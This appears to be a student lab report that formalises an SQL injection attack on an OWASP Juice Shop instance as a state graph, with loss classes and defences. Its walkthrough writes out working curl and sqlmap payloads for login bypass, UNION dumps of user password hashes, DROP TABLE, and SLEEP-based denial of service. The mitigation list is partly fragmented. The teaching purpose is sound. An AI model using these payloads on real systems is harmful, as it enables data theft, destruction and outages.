

| Name | Zhang San |
| Student ID | 12345678 |
| Variant | 1 |
| Date | 2026-10-19 |
Choose a specific computer attack, describe the attacker's sequence of actions in detail, and formalise the attack as a directed graph: the initial state S0 (attacker idle), intermediate states Si (attacker actions or system states), and final states Sk (the resulting loss). The goal is to practise turning an informal narrative into a checkable state machine and to derive countermeasures from it.
TopicSQL injection (SQLi) — on the list suggested by the manual, and it connects directly to Work 1 and Work 2.
| Item | Description |
|---|---|
| Vulnerability class | CWE-89, Improper Neutralization of Special Elements used in an SQL Command; OWASP Top 10 2021 A03: Injection |
| Affected components | Every place that concatenates user input into SQL — login, search, sorting, filtering — and the database behind it (MySQL / PostgreSQL / SQLite) |
| Root weakness | The application mixes data into code; the database cannot tell the developer's statement from the attacker's input |
| Typical impact | Authentication bypass, reading/modifying/deleting arbitrary tables, and — when the
database account allows it — operating-system command execution (INTO OUTFILE,
xp_cmdshell) |
| Attacker prerequisites | Network access to one injectable HTTP endpoint (no account needed); the higher the database privileges, the worse the impact |
Using the Work 2 Juice Shop instance (or any login/search endpoint with an injectable parameter), the following steps are reproducible. Each step corresponds to one state transition in the graph.
nmap -sV -p 3000,8080 target curl -s http://target:3000/ | grep -Ei 'form|input|search' curl -s http://target:3000/rest/products/search?q=apple
The goal is to find endpoints that accept strings and whose response depends on the database. No state changes yet.
curl -s "http://target:3000/rest/products/search?q='"
A single quote breaks the concatenated SQL, producing a 500 or an SQL error message
(SQLITE_ERROR: unrecognized token) — the injection point is confirmed.
# authentication bypass: ' OR 1=1--
curl -s -X POST http://target:3000/rest/user/login \
-H 'Content-Type: application/json' \
-d '{"email":"admin@juice-sh.op'"'"' OR 1=1--","password":"x"}'
# reading other tables: ')) UNION SELECT id,email,password,... FROM Users--
curl -s "http://target:3000/rest/products/search?q=apple'))%20UNION%20SELECT%20id,email,password,4,5,6,7,8,9%20FROM%20Users--"
Once rows that should not be visible (user table, password hashes) are returned, the injection has succeeded and the attacker has read/write access to the database.
sqlmap -u "http://target:3000/rest/products/search?q=apple" \
--batch --dbs --dump -T Users
Bulk export, or page-by-page extraction through UNION. The data leaves the system boundary,
which is information theft.
# stacked queries where the driver allows them curl -s "http://target/search?q=x'; UPDATE Products SET price=0 WHERE id=1;--" curl -s "http://target/search?q=x'; DROP TABLE Reviews;--"
Prices become zero or a table disappears; data integrity is destroyed — modification/deletion of information.
# boolean blind: true/false difference in the page curl -s "http://target/search?q=x' AND SUBSTR((SELECT password FROM Users LIMIT 1),1,1)='a'--" # time blind: infer bit by bit, while occupying database connections curl -s "http://target/search?q=x' AND (SELECT 1 FROM (SELECT SLEEP(5))a)--"
When output is suppressed or filtered, the attacker switches to boolean/time-based blind injection. Each request forces the database to evaluate an expensive sub-query, which under concurrency exhausts the connection pool and CPU — denial of service.

| State | Meaning | Observable evidence |
|---|---|---|
| S0 | Normal operation, no intruder | baseline traffic, no anomalous queries |
| S1 | Reconnaissance complete: endpoints and parameters known | scanning patterns (directory enumeration, unusual user agents) |
| S2 | Injection point confirmed (input changes SQL semantics) | quote, --, UNION in request logs |
| S3 | Injection succeeded: unauthorised data access | abnormal row counts, error output, unusual query plans |
| S4 | Bulk data export | many SELECTs in a short window, egress spike |
| S5 | Data modified or deleted | UPDATE/DELETE/DROP in audit logs |
| S6 | Blind/heavy queries consuming resources | database CPU, slow queries, rising connection count |
| Sk1 | Final: information theft | sensitive data appears externally |
| Sk2 | Final: information modified/deleted | integrity checks fail, reconciliation breaks |
| Sk3 | Final: denial of service | timeouts, 5xx rate, exhausted connection pool |
| Transition | Attacker action | Why it moves the attacker forward |
|---|---|---|
| S0→S1 | crawl, port scan, enumerate endpoints | the application exposes enumerable endpoints and parameters |
| S1→S2 | submit a quote/parenthesis, observe the error | verbose errors reveal the SQL structure |
| S2→S3 | craft OR 1=1--, UNION SELECT | input is concatenated, so the boolean logic is rewritten |
| S3→S4 | dump the target tables | the database account can read them |
| S4→Sk1 | take the data out | data crossing the system boundary is a leak |
| S3→S5 | stacked write/delete queries | the account has write privileges |
| S5→Sk2 | destroy integrity | without backups or audit, it is unrecoverable |
| S2→S6 | switch to boolean/time-based blind injection | even without output, semantic differences are observable |
| S6→Sk3 | send concurrent SLEEP() requests | each request holds a connection and CPU, exhausting resources |
| Loss class | Manifestation in this attack |
|---|---|
| Information theft | user table (emails, password hashes), orders and reviews are exported; hashes can be cracked offline and reused to log into other systems |
| Information modified/deleted | prices changed to zero, reviews removed, tables dropped — integrity and traceability are destroyed |
| Denial of service | blind injection and heavy queries saturate the connection pool; legitimate users cannot log in or check out |
All three can happen in one incident: a successful injection typically steals first, tampers next and ends with resource exhaustion. Every path starting at S0 terminates in some Sk; no intermediate state is left dangling.
SELECT/INSERT, no FILE or
SUPER privileges — this cuts S3→S5 and OS command execution.UNION, SLEEP(, comment markers; alert on spikes of 4xx/5xx.UNION, INFORMATION_SCHEMA access and mass exports.SQL injection is, at its core, a broken boundary between data and code. Describing it as a directed graph turns a vague statement ("the attacker injected SQL") into verifiable states and actions: reconnaissance → probing → injection → exfiltration/tampering/resource exhaustion. Every edge corresponds to a concrete action, and therefore to a place where the attack can be cut — that is the value of formal modelling for defence: find the edge, then find the break point.
The same attack can be drawn differently depending on strategy (blind only, authentication bypass only), but S0 and Sk must stay stable, otherwise the graphs are not comparable.